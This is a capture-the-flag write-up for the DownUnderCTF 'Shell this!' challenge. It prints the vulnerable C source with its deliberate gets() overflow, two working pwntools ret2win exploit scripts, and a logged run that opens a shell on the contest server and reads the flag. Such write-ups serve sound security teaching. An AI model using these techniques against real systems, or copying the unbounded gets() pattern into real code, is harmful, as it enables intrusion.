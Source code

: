 # DownUnderCTF

## Shell this!

> 100
>
> Author: Faith
>
> Somebody told me that this program is vulnerable to something called remote code execution?
>
> I'm not entirely sure what that is, but could you please figure it out for me?
>
> `nc chal.duc.tf 30002`
>
> Attached files:
>
>    * [shellthis.c](shellthis.c) (sha256: 82c8a27640528e7dc0c907fcad549a3f184524e7da8911e5156b69432a8ee72c)
>    * [shellthis](shellthis) (sha256: af6d30df31f0093cce9a83ae7d414233624aa8cf23e0fd682edae057763ed2e8)



Tags: _pwn_ _x86-64_ _remote-shell_ _rop_ _bof_ _ret2win_


## Summary

`gets`


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No shellcode, but that's about it.


### Source included


```c
#include <stdio.h>
#include <unistd.h>

__attribute__((constructor))
void setup() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
}

void get_shell() {
    execve("/bin/sh", NULL, NULL);
}

void vuln() {
    char name[40];

    printf("Please tell me your name: ");
    gets(name);
}

int main(void) {
    printf("Welcome! Can you figure out how to get this program to give you a shell?\n");
    vuln();
    printf("Unfortunately, you did not win. Please try again another time!\n");
}
```

`gets` vulnerability.  Easy ROP/_ret2win_ since no canary or PIE.


## Exploit

```
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./shellthis')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    p = remote('chal.duc.tf', 30002)

payload  = 0x38 * b'A'
payload += p64(binary.sym.get_shell)

p.sendlineafter('Please tell me your name: ',payload)
p.interactive()
```

Send `0x38` bytes followed by the address of the `get_shell` function.

### Why `0x38`?

Well, it's the distance to the return address from the start of the `name` buffer.

There are two easy ways to figure this out:

Use Ghidra and look at the stack diagram:

```
                               undefined __stdcall vuln(void)
             undefined         AL:1               <RETURN>
             char[40]          Stack[-0x38]:40    name
```

Or, have pwntools find it for you:

```
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./shellthis')
context.log_level = 'INFO'

p = process(binary.path)
p.sendline(cyclic(1024,n=8))
p.wait()
core = p.corefile
p.close()
os.remove(core.file.name)
offset = cyclic_find(core.read(core.rsp, 8),n=8)
log.info('offset: ' + hex(offset))

p = remote('chal.duc.tf', 30002)

payload  = offset * b'A'
payload += p64(binary.sym.get_shell)

p.sendlineafter('Please tell me your name: ',payload)
p.interactive()
```


Output:

```
# ./exploit2.py
[*] '/pwd/datajerk/downunderctf2020/shellthis/shellthis'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/pwd/datajerk/downunderctf2020/shellthis/shellthis': pid 29206
[*] Process '/pwd/datajerk/downunderctf2020/shellthis/shellthis' stopped with exit code -11 (SIGSEGV) (pid 29206)
[!] Found bad environment at 0x7ffe62945f8c
[+] Parsing corefile...: Done
[*] '/pwd/datajerk/downunderctf2020/shellthis/core.29206'
    Arch:      amd64-64-little
    RIP:       0x400713
    RSP:       0x7ffe62944bb8
    Exe:       '/pwd/datajerk/downunderctf2020/shellthis/shellthis' (0x400000)
    Fault:     0x6161616161616168
[*] offset: 0x38
[+] Opening connection to chal.duc.tf on port 30002: Done
[*] Switching to interactive mode
$ id
uid=1000 gid=999 groups=999
$ ls -l
total 16
-rw-r--r-- 1 65534 65534    43 Sep  4 04:31 flag.txt
-rwxr-xr-x 1 65534 65534 11488 Sep  4 04:31 shellthis
$ cat flag.txt
DUCTF{h0w_d1d_you_c4LL_That_funCT10n?!?!?}
```